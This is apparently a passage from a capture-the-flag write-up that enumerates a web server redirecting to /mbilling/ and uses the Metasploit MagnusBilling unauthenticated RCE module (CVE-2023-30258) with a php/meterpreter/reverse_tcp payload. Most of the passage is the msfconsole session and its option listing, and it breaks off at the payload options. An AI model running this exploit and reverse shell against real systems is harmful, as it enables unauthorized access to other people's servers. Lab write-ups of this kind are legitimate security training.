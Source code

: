 {: .nolineno}

## Web Enumeration ⤵️


Lets check port `80`and enumerate from there 🔻

![](Pasted%20image%2020250702110152.png)
_Webpage is redirected to `/mbillling/` site_

Now I know with port scan that a service is running named as `Asterisk Call Manager 2.10.6` on port `5038` after some exploit enumeration I got that this manager have a unauthorized login bypass though `Metasploit-framework` [exploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/).

Lets use that exploit to gain access 🔻

```bash
└─$ msfconsole -q
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: s
                                         ocks5, socks5h, sapni, http, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/u
                                         sing-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the loc
                                       al machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated i
                                        f left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```